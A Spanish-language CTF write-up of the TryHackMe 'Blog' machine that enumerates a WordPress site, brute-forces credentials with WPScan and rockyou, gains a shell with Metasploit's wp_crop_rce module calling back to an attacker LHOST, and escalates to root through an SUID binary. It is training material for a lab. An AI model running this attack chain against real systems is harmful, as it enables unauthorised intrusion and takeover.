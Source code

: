 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - WordPress
  - CMS
  - PrivilegeEscalation
  - SUID
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Wpscan|Wpscan]]
	- [[#Explotación#MSFconsole|MSFconsole]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#SUID|SUID]]

---
# Resolviendo la máquina Blog

>En esta publicación, comparto cómo resolví la máquina **Blog** de [TryHackMe](https://tryhackme.com/room/blog).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 10.10.213.30`

![[Pasted image 20250725121052.png]]
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.213.30 -oG allPorts`

![[Pasted image 20250725121224.png]]

`nmap -p22,80,139,445 -sCV 10.10.213.30 -oN targeted`

![[Pasted image 20250725121326.png]]
### HTTP

`http://10.10.213.30/`

![[Pasted image 20250725122455.png]]

![[Pasted image 20250725122541.png]]

Como no se visualiza correctamente, se añade una entrada en `/etc/hosts` para resolver el dominio.

`echo "10.10.213.30 blog.thm" >> /etc/hosts`

![[Pasted image 20250725122654.png]]

Ya se visualiza correctamente.
#### Fuzzing Web

`gobuster dir -u http://10.10.213.30/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250725124207.png]]

---
## Explotación
### Wpscan

`wpscan --url http://10.10.219.180/ --enumerate u,vp`

![[Pasted image 20250725173708.png]]
![[Pasted image 20250725173742.png]]

`wpscan --url http://10.10.219.180/ --passwords /usr/share/wordlists/rockyou.txt --usernames bjoel,kwheel`

![[Pasted image 20250725173826.png]]
![[Pasted image 20250725174144.png]]

Con las credenciales obtenidas (`kwheel` / `cutiepie1`), se accede al panel de WordPress.

![[Pasted image 20250725181855.png]]
### MSFconsole

En Metasploit (`msfconsole`) se busca un módulo compatible con la versión de WordPress detectada. Se encuentra el exploit (`exploit/multi/http/wp_crop_rce`) que permite ejecutar **RCE (Remote Code Execution)**.

```
search WordPress 5.0
use 0 | use exploit/multi/http/wp_crop_rce
set LHOST 10.8.184.124
set RHOSTS 10.10.219.180
set USERNAME kwheel
set PASSWORD cutiepie1
exploit
```

![[Pasted image 20250725182204.png]]

`shell`

`/bin/bash -i`
### Escalada de Privilegios
#### SUID

Se realiza una búsqueda de permisos **SUID**.

`find / -perm -4000 2>/dev/null`

![[Pasted image 20250725183415.png]]

`ltrace checkcer`

![[Pasted image 20250725183454.png]]

Con `ltrace`, se identifica que el binario `checker` busca la variable de entorno `admin`. Al definirla manualmente (`export admin=hello`), se logra ejecutar el binario con privilegios elevados.

`export admin=hello`

`checker`

![[Pasted image 20250725183534.png]]

Se accede al directorio: `/root`

`cd /root`

`ls`

![[Pasted image 20250725183615.png]]

Además de buscar la flag del usuario.

`find / -name user.txt 2>/dev/null`

![[Pasted image 20250725183649.png]]

---
